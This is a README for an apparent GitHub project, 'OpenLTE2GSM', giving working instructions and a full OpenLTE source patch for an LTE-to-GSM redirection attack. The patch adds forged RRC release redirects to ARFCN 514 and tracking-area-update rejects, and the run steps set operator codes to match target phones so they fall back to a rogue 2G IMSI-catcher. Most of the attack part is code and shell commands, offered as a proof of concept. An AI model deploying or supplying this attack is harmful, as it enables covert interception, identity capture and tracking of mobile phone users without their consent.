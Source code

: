 Redirect 4G->2G
===============

Install (Working on Ubuntu 20.04.4)
-----------------------------------

.. code:: bash

   git clone https://github.com/bbaranoff/OpenLTE2GSM
   cd OpenLTE2GSM
   sudo bash install.sh

Running
-------

LTE Redirection Attack

Redirect attack from long term evolution (LTE 4G) to global system
mobile (GSM 2G): article in progress

Tested with : LimeSDR-Mini + 2 Motorola (C1XX series osmocom-bb
compatibles) or BladeRF-xA4 + 2 Motorola or BladeRF-xA4 + LimeSDR-Mini

Phone in 2G/3G/4G mode This article is in progress and is just a PoC The
attack step are run the IMSI-catcher into arfcn 514 follow (see Build
IMSI-catcher) run the 4G redirector as follow

Shell #1

.. code:: bash

   sudo LTE_fdd_enodeb

Shell #2

.. code:: bash

   telnet localhost 30000
   write rx_gain 30
   write tx_gain 80
   write mcc 215
   write mnc 15
   write band 7
   write dl_earfcn 3350
   write tracking_area_code 6604

(change with your ue values be careful that the earfcn is in the band
you can have tracking_area_code via mobile testing mode \*#0011# on
samsung or \*#*#4636#*#\* on OnePlus for example)

Shell #2

.. code:: bash

   start

wait… and when you have “ok” answer in shell #2 and … enjoy !
        

.. raw:: html

    <figure class="video_container"><iframe src="https://www.youtube.com/embed/93o9XMZXGWY" frameborder="0" allowfullscreen="true"> </iframe></figure>

    
Redirection patch code
----------------------

.. code:: patch

   --- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
   +++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
   @@ -11698,13 +11698,28 @@
            liblte_value_2_bits(0, &msg_ptr, 2);
    
            // Optional indicators
   -        liblte_value_2_bits(0, &msg_ptr, 1);
   +        liblte_value_2_bits(1, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
    
            // Release cause
            liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);
    
   +// redirectedcarrierinfo
   +// geran // choice
   +liblte_value_2_bits(1, &msg_ptr, 4);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// dcs1800
   +liblte_value_2_bits(0, &msg_ptr, 1);
   +// Choice of following ARFCN
   +liblte_value_2_bits(0, &msg_ptr, 2);
   +// explicit list
   +liblte_value_2_bits(1, &msg_ptr, 5);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// Note that total bits should be octet aligned,
   +// if not, pad it with zeros.
            // Fill in the number of bits used
            msg->N_bits = msg_ptr - msg->msg;
    
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
   @@ -106,6 +106,7 @@
        // Message Parsers
        void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
   +    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
        void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   @@ -125,6 +126,8 @@
        // Message Senders
        void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
   @@ -99,18 +99,21 @@
    typedef enum{
        LTE_FDD_ENB_MME_PROC_IDLE = 0,
        LTE_FDD_ENB_MME_PROC_ATTACH,
   +    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
        LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
        LTE_FDD_ENB_MME_PROC_DETACH,
        LTE_FDD_ENB_MME_PROC_N_ITEMS,
    }LTE_FDD_ENB_MME_PROC_ENUM;
    static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                      "ATTACH",
   +                                         "TAU REQUEST",
                                                                                      "SERVICE REQUEST",
                                                                                      "DETACH"};
    
    typedef enum{
        LTE_FDD_ENB_MME_STATE_IDLE = 0,
        LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
   +LTE_FDD_ENB_MME_STATE_TAU_REJECT,
        LTE_FDD_ENB_MME_STATE_REJECT,
        LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
        LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
                                                                                        "AUTH REJECTED",
                                                                                        "ENABLE SECURITY",
   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
   @@ -204,6 +204,10 @@
            case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
                parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
                break;
   +        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
   +            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
   +            break;
   +
            case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
                parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
                break;
   @@ -655,6 +659,16 @@
            }
        }
    }
   +void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
   +                                           LTE_fdd_enb_user       **user,
   +                                           LTE_fdd_enb_rb         **rb)
   +{
   +    // Set the procedure
   +
   +(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
   +(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
   +
   +
    void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                       LTE_fdd_enb_user       *user,
                                                       LTE_fdd_enb_rb         *rb)
   @@ -864,7 +878,7 @@
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                    user->set_id(hss->get_user_id_from_imei(imei_num));
                }else{
   -                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
   +                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
                }
            }else{
   @@ -1195,6 +1209,9 @@
            user->prepare_for_deletion();
            send_attach_reject(user, rb);
            break;
   + case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
   +        send_tracking_area_update_reject(user, rb);
   +break;
        case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
            send_authentication_request(user, rb);
            break;
   @@ -1397,6 +1414,52 @@
                          (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                          sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
    }
   +
   +
   +
   +
   +void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
   +                                         LTE_fdd_enb_rb   *rb)
   +{
   +    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
   +    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
   +    LIBLTE_BYTE_MSG_STRUCT                   msg;
   +     ta_update_rej.emm_cause = user->get_emm_cause();
   +     ta_update_rej.t3446_present = false;
   +     liblte_mme_pack_tracking_area_update_reject_msg(
   +     &ta_update_rej,
   +     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
   +     user->get_auth_vec()->k_nas_int,
   +     user->get_auth_vec()->nas_count_dl,
   +     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
   +     &msg);
   +    // Queue the NAS message for RRC
   +    rb->queue_rrc_nas_msg(&msg);
   +
   +    // Signal RRC for NAS message
   +    nas_msg_ready.user = user;
   +    nas_msg_ready.rb   = rb;
   +    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
   +                      LTE_FDD_ENB_DEST_LAYER_RRC,
   +                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
   +                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
   +
   +    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
   +// Unpack the message
   +    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
   +
   +    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
   +                                  user->get_imsi_str().c_str(),
   +                                  user->get_imei_str().c_str());
   +
   +    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
   +}
   +
   +
   +
   +
   +
   +
    void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                             LTE_fdd_enb_rb   *rb)
    {
   @@ -1412,7 +1475,7 @@
            imsi_num = user->get_temp_id();
        }
    
   -    attach_rej.emm_cause           = user->get_emm_cause();
   +    attach_rej.emm_cause           = 2;
        attach_rej.esm_msg_present     = false;
        attach_rej.t3446_value_present = false;
        liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
   @@ -229,7 +229,7 @@
        try
        {
            // Setup the USRP
   -        if(devs[idx-1]["type"] == "x300")
   +        if(devs[idx-1]["type"] == "soapy")
            {
                devs[idx-1]["master_clock_rate"] = "184320000";
                master_clock_set                 = true;
   @@ -252,7 +252,6 @@
                usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
                usrp->set_tx_gain(tx_gain);
                usrp->set_rx_gain(rx_gain);
   -
                // Setup the TX and RX streams
                tx_stream  = usrp->get_tx_stream(stream_args);
                rx_stream  = usrp->get_rx_stream(stream_args);
   @@ -822,7 +821,7 @@
            buffer_size = 1024;
        }
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_TX,
   +                                BLADERF_TX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -842,7 +841,7 @@
    
        // Setup sync RX
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_RX,
   +                                BLADERF_RX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -974,7 +973,7 @@
        if(radio_params->init_needed)
        {
            // Assume RX_timestamp and TX_timestamp difference is 0
   -        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
   +        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
            next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
            metadata_rx.flags     = 0;
            metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes

Install from scratch
--------------------

.. code:: bash

   apt install build-essential libgmp-dev libx11-6 libx11-dev flex libncurses5 libncurses5-dev libncursesw6 libpcsclite-dev zlib1g-dev libmpfr6 libmpc3 lemon aptitude libtinfo-dev libtool shtool autoconf git-core pkg-config make libmpfr-dev libmpc-dev libtalloc-dev libfftw3-dev libgnutls28-dev libssl1.0-dev libtool-bin libxml2-dev sofia-sip-bin libsofia-sip-ua-dev sofia-sip-bin libncursesw5-dev bison libgmp3-dev alsa-oss asn1c libdbd-sqlite3 libboost-all-dev libusb-1.0-0-dev python-mako python3-mako doxygen python-docutils cmake build-essential g++ libpython-dev python-numpy python3-numpy swig libsqlite3-dev libi2c-dev libwxgtk3.0-gtk3-dev freeglut3-dev composer phpunit python3-pip python-pip

   pip install requests
   pip3 install requests

Clone or download the necessary repositories :

.. code:: bash

   #!/bin/bash
   git clone https://github.com/ettusresearch/uhd #tested with checkout dbaf4132f
   git clone https://github.com/pothosware/SoapySDR #tested with checkout 67abec9
   git clone https://github.com/nuand/BladeRF #(necessary even if you don’t have a blade) tested with checkout f03d8433
   git clone https://github.com/pothosware/SoapyBladeRF #(only if you have a BladeRF) tested with checkout 1c1e8aa
   git clone https://github.com/pothosware/SoapyUHD #tested with checkout 7371e68
   git clone https://github.com/myriadrf/LimeSuite #only if you have a LimeSDR) tested with checkout a5b3a10f
   git clone https://github.com/gnuradio/gnuradio #tested with checkout 8e2808513
   git clone https://github.com/osmocom/gr-osmosdr #tested with checkout 4d83c60
   wget https://tls.mbed.org/download/polarssl-1.3.7-gpl.tgz && tar zxvf polarssl-1.3.7-gpl.tgz
   git clone https://git.code.sf.net/p/openlte/code openlte
   cd openlte
   git checkout a5a66ed
   git clone https://github.com/bbaranoff/openlte_redirection_patch patch_redir
   cp patch_redir/test.patch .
   patch -p0 < test.patch

Compilation (same order for the compilation than from the git clone(s)
or download) cd dir_to_compile (git submodule init && git submodule
update) -> only for gnuradio (cd host) -> only for uhd

.. code:: bash

   mkdir build
   cd build
   cmake ..
   make -j$nproc
   make install
   ldconfig
